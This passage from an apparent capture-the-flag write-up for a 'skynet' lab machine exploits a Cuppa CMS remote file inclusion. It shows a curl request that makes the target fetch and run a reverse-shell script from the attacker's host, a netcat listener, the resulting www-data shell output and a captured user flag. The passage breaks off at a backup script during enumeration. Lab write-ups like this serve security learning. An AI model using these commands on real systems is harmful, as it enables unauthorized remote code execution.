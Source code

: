 
#### 8. Cuppa CMS

I typed 'cuppa cms exploit" on google and found:

`https://www.exploit-db.com/exploits/25971`

This vulnerability is called Remote file intrusion attack. In our case, we  can read any file on machine or run a reverse shell, by adding it in the end of execution command.

Command used here is:

`curl -s http://10.10.59.157/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=`



Here is my approach:

1. I prepared pentest monkey's reverse shell script

2. Enabled it with python `python3 -m http.server`

3. Ran netcat `sudo nc -lvnp 4444`

4. Executed RFI command adding link to shared script, so finally:

`curl -s http://10.10.59.157/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://10.6.46.150:8000/revshell.php`

and here we are on machine,, logged as `www-data`

```
connect to [10.6.46.150] from (UNKNOWN) [10.10.59.157] 51582
Linux skynet 4.8.0-58-generic #63~16.04.1-Ubuntu SMP Mon Jun 26 18:08:51 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
 06:26:30 up  2:04,  0 users,  load average: 0.14, 0.08, 0.03
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ 
```


#### 9. Enumeration of machine

Firstly I spawn shell:

`python3 -c 'import pty;pty.spawn("/bin/bash")'`

It turns out that `www-data` can read `milesdyson` user.txt flag so I do it:

```
www-data@skynet:/home/milesdyson$ cat user.txt
cat user.txt
7ce5c2109a40f958099283600a9ae807
```

I checked `sudo-l` but it asks me for password. I also couldn't find any suid files, however in `milesdyson` home there is a backup script:
